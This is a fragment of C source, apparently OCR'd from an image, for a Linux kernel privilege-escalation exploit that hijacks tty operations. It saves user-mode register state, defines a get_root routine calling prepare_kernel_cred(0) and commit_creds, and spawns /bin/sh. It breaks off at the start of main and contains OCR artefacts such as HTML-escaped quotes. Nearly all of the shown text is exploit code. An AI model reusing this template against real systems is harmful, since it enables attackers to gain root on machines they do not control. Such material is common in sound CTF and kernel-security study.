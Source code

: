 ```C



void* fake_tty_operations[30];



size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()

{

	__asm__("mov user_cs, cs;"

			"mov user_ss, ss;"

			"mov user_sp, rsp;"

&quot;pushf;&quot;
			"pop user_rflags;"

			);

	puts("[*]status has been saved.");

}





void get_shell()

{

    system("/bin/sh");

}



void get_root()

{

    char* (*pkc)(int) = prepare_kernel_cred_addr;

    void (*cc)(char*) = commit_creds_addr;

(* cc) ((* pkc) (0));
}

int main()

{

    save_status();



	int i = 0;

```